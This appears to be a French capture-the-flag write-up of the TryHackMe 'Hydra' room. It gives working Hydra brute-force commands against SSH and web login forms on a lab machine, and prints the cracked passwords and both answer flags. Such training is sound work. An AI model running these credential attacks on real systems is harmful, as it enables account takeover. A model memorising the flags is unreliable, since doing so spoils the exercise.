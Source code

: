 ```yaml
---
title: "TryHackMe - Hydra"
date: 2025-10-23 00:37:00 +0200
categories: [TryHackMe, Learning]
tags: [brute-force, hydra, cracking]
description: "Write-up de la room Hydra qui nous apprendra à manier cet outil de brute force de mots de passe"
image:
  path: /assets/img/posts/tryhackme-hydra.png
  alt: "Hydra"
---
```


## Informations sur la room

Découvrez et utilisez Hydra, un pirate de connexion réseau rapide, pour forcer brutalement et obtenir les informations d'identification d'un site Web.

**Lien :** [Hydra](https://tryhackme.com/room/hydra)

## Objectifs d'apprentissage

Cette room couvre les compétences suivantes :

- Utilisation de l'outil Hydra pour les attaques par force brute

---

## Solutions des tâches

### Task 1 - Hydra Introduction

Hydra est un programme de **piratage de mot de passe en ligne** par force brute, un outil de craquage rapide de mots de passe pour les systèmes de connexion.

Hydra peut parcourir une liste de mots de passe et **forcer brutalement** certains services d'authentification. Imaginez devoir essayer manuellement de deviner le mot de passe de quelqu'un sur un service particulier (SSH, formulaire web, FTP ou SNMP). Nous pouvons utiliser Hydra pour **parcourir automatiquement une liste de mots de passe** et accélérer considérablement ce processus, en déterminant le mot de passe correct.

Selon son [référentiel officiel](https://github.com/vanhauser-thc/thc-hydra), Hydra prend en charge, c'est-à-dire a la capacité de forcer brutalement les protocoles suivants :

Asterisk, AFP, Cisco AAA, Cisco auth, Cisco activate, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, Proxy HTTP, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 et v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC et XMPP.

Cela montre l'importance d'utiliser un mot de passe fort. Si votre mot de passe est commun, ne contient pas de caractères spéciaux et ne dépasse pas huit caractères, il sera facilement deviné. Des listes de mots de passe contenant des centaines de millions d'entrées existent et contiennent les mots de passe les plus courants. Ainsi, lorsqu'une application utilise un mot de passe simple par défaut pour se connecter, il est crucial de le modifier ! Les caméras de vidéosurveillance et les frameworks Web utilisent souvent `admin:password` comme identifiants de connexion par défaut, ce qui n'est évidemment pas assez fort.

### Task 2 - Using Hydra

**Les commandes principales d'Hydra**

Les options que nous transmettons à Hydra dépendent du service (protocole) que nous attaquons. Par exemple, si nous voulions forcer brutalement **FTP** avec le nom d'utilisateur `user` et une liste de mots de passe `passlist.txt`, nous utiliserions la commande suivante :

```bash
hydra -l user -P passlist.txt ftp://10.10.170.146
```

#### SSH

Pour attaquer un service SSH, voici la syntaxe de base :

```bash
hydra -l <username> -P <full path to pass> 10.10.170.146 -t 4 ssh
```

**Explication des options :**

- `-l` spécifie le nom d'utilisateur pour la connexion SSH
- `-P` indique le chemin vers la liste de mots de passe
- `-t` définit le nombre de threads à générer (connexions parallèles)

Voici un exemple complet :

```bash
hydra -l root -P passwords.txt 10.10.170.146 -t 4 ssh
```

Dans cet exemple :
- Hydra utilisera `root` comme nom d'utilisateur pour SSH
- Il essaiera les mots de passe dans le fichier `passwords.txt`
- Il y aura quatre threads exécutés en parallèle comme indiqué par `-t 4`

#### Formulaire Web POST

Nous pouvons également utiliser Hydra pour **forcer brutalement** les formulaires Web. Vous devez savoir quel type de requête il effectue : les méthodes GET ou POST sont couramment utilisées. Vous pouvez utiliser l'onglet réseau de votre navigateur (dans les outils de développement) pour voir les types de requêtes ou consulter le code source.

Voici comment utiliser Hydra pour le web :

```bash
sudo hydra <username> <wordlist> 10.10.170.146 http-post-form "<path>:<login_credentials>:<invalid_response>"
```

**Explication des paramètres :**

- `-l` le nom d'utilisateur pour la page web
- `-P` la liste de mots de passe
- `http-post-form` indique que le type du formulaire est **POST**
- `<path>` l'URL de login, par exemple `login.php`
- `<login_credentials>` le format des paramètres de connexion, par exemple `username=^USER^&password=^PASS^`
- `<invalid_response>` une partie de la réponse lorsque la connexion échoue
- `-V` active la sortie détaillée pour chaque tentative

Voici un exemple plus concret de commande Hydra pour forcer brutalement un formulaire de connexion POST :

```bash
hydra -l <username> -P <wordlist> 10.10.170.146 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

**Détail de la commande :**

- La page de connexion est uniquement `/`, c'est-à-dire l'adresse IP principale
- Le `username` est le nom du champ du formulaire dans lequel le nom d'utilisateur est saisi
- Le ou les noms d'utilisateur spécifiés remplaceront `^USER^`
- Le `password` est le nom du champ du formulaire dans lequel le mot de passe est saisi
- Les mots de passe fournis remplaceront `^PASS^`
- Enfin, `F=incorrect` est une chaîne qui apparaît dans la réponse du serveur lorsque la connexion échoue

---

**Use Hydra to bruteforce molly's web password. What is flag 1?**

Voici la commande Hydra que j'ai adaptée pour cette machine :

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.170.146 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

J'ai mis `/login` car le formulaire de connexion se trouve à cette adresse.

La commande nous révèle que le mot de passe de molly est : `sunshine`

Ensuite, on se connecte sur le site web avec ces identifiants pour récupérer le flag.

**Réponse :** `THM{2673a7dd116de68e85c48ec0b1f2612e}`

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

On fait la même chose mais avec la méthode **SSH** :

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.170.146 -t 4 ssh
```

Le mot de passe trouvé est : `butterfly`

Ensuite on se connecte en SSH avec ces identifiants et on lit le contenu du fichier `flag.txt` :

```bash
ssh molly@10.10.170.146
cat flag.txt
```

**Réponse :** `THM{c8eeb0468febbadea859baeb33b2541b}`

**Room Complétée**

{% include comments.html %}